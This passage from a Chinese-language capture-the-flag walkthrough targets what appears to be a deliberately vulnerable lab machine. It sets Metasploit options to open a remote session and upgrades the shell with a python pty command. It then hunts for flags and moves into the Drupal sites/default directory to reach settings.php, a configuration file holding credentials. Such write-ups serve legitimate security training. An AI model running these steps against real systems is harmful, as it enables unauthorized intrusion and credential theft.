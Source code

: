 

```bash
set rhost 192.168.80.139
# 这里的 rhost 即我们直接扫描发现的靶机ip
set lhost 192.168.80.129
# 之前 ifconfig 得到的主机ip
set lport 4444
# 随便设一个端口，不要被占用就行
```

![image-20230321150535278](https://s3.xiabee.cn/pic/2023/03/08c10d040fba587716981f616475c7450b8d63124a4ac957266b9d492edfc6c8.png)



然后 run 一下（或者 exploit 也行） 如果看到以下内容说明漏洞攻击成功了，建立了远程连接

![image-20230321150606737](https://s3.xiabee.cn/pic/2023/03/b37436fc23b821277488ecf899e1a8da1e116c0310fc5d11434c22b6f3553be2.png)



getshell一下，拿到 `shell`，并通过 `python` 反弹 `bash`:

```bash
shell
python -c 'import pty;pty.spawn("/bin/bash")'
# python反弹bash
```

![image-20230321150658450](https://s3.xiabee.cn/pic/2023/03/299f001e9fdb3c88cfc76b566d19369645ba07bc28fd4acb7a1d09417dbbdacf.png)

此时我们已经拿到了 bash-shell



## 寻找 FLAG

拿下初试控制权后随便逛逛先。

### FLAG1

直接明文给出来了，直接翻阅即可：

![image-20230321151011907](https://s3.xiabee.cn/pic/2023/03/91d1bac7f04cb09031c5f1cc33b98247a2ab70a6d3e9c7c91bc87f771084b090.png)



> Every good CMS needs a config file - and so do you. 
>
> flag1提示



### FLAG2

“每一个好的内容管理系统 都需要一个配置文件”——配置文件里面肯定有东西

```bash
cd sites
cd default
ls
# 此时可以看到一个 settings.php
```
